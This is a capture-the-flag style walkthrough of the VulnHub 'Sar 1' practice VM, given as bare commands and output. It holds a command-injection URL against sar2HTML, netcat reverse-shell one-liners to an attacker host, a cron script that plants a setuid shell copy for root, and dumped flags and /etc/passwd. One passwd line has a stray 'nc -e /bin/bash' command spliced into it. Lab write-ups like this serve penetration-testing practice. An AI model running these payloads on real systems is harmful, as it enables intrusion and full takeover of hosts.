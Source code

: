 
# Description

<https://www.vulnhub.com/entry/sar-1,425/>

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.


# Scan ports

    └─$ sudo nmap -sT -A -Pn -n 192.168.110.60                                                                          
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-29 14:34 CEST
    Nmap scan report for 192.168.110.60
    Host is up (0.00017s latency).
    Not shown: 999 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    MAC Address: 08:00:27:8D:E6:E4 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 4.X|5.X
    OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
    OS details: Linux 4.15 - 5.6
    Network Distance: 1 hop

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.17 ms 192.168.110.60

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds



sudo tcpdump -i vboxnet0 icmp -X
http://192.168.110.60/sar2HTML/index.php?plot=;ping%20-c%205%20192.168.110.1



rm -fr /tmp/backpipe;mknod /tmp/backpipe p; nc 192.168.110.1 1234 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe



cat /home/love/Desktop/user.txt
427a7e47deb4a8649c7cab38df232b52



cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour managemnc 192.168.110.1 1234 -e /bin/bashent daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
love:x:1000:1000:love,,,:/home/love:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
mysql:x:122:127:MySQL Server,,,:/nonexistent:/bin/false




ls -al cron.d
ls -al cron.daily
ls -al cron.hourly
ls -al cron.monthly
ls -al cron.weekly
ls -al crontab



└─$ nc -lvp 4321                                    
listening on [any] 4321 ...
192.168.110.60: inverse host lookup failed: Unknown host
connect to [192.168.110.1] from (UNKNOWN) [192.168.110.60] 58264
id
uid=0(root) gid=0(root) groups=0(root)
ls -al /tmp
total 172
drwxrwxrwt 13 root root   4096 Oct 29 19:00 .
drwxr-xr-x 24 root root   4096 Oct 20  2019 ..
drwxrwxrwt  2 root root   4096 Oct 29 18:01 .font-unix
-rw-r--r--  1 root root      0 Oct 29 19:00 gateway
drwxrwxrwt  2 root root   4096 Oct 29 18:01 .ICE-unix
prw-r--r--  1 root root      0 Oct 29 19:00 p
-rwsr-xr-x  1 root root 121432 Oct 29 19:00 sh
drwx------  3 root root   4096 Oct 29 18:01 systemd-private-3b8849a56845442f88ba45e18cac304d-apache2.service-jht7OZ
drwx------  3 root root   4096 Oct 29 18:01 systemd-private-3b8849a56845442f88ba45e18cac304d-bolt.service-vgzC53
drwx------  3 root root   4096 Oct 29 18:01 systemd-private-3b8849a56845442f88ba45e18cac304d-colord.service-AjivZ4
drwx------  3 root root   4096 Oct 29 18:01 systemd-private-3b8849a56845442f88ba45e18cac304d-ModemManager.service-90Ghjr
drwx------  3 root root   4096 Oct 29 18:01 systemd-private-3b8849a56845442f88ba45e18cac304d-rtkit-daemon.service-vMRjAk
drwx------  3 root root   4096 Oct 29 18:01 systemd-private-3b8849a56845442f88ba45e18cac304d-systemd-resolved.service-7IZobE
drwxrwxrwt  2 root root   4096 Oct 29 18:01 .Test-unix
drwxrwxrwt  2 root root   4096 Oct 29 18:01 .X11-unix
drwxrwxrwt  2 root root   4096 Oct 29 18:01 .XIM-unix
cd /root
ls -al
total 40
drwx------  5 root root 4096 Oct 29 18:01 .
drwxr-xr-x 24 root root 4096 Oct 20  2019 ..
-rw-------  1 root root  501 Oct 21  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug  6  2019 .cache
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Oct 20  2019 root.txt
-rw-r-----  1 root root    5 Oct 29 18:01 .vboxclient-display-svga.pid
cat root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99



cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh




cat /var/www/html/write.sh
#!/bin/sh

touch /tmp/gateway
cp /bin/sh /tmp/sh
chmod +x /tmp/sh
chmod u+s /tmp/sh
rm -fr /tmp/p;mknod /tmp/p p; nc 192.168.110.1 4321 0</tmp/p | /bin/bash 1>/tmp/p
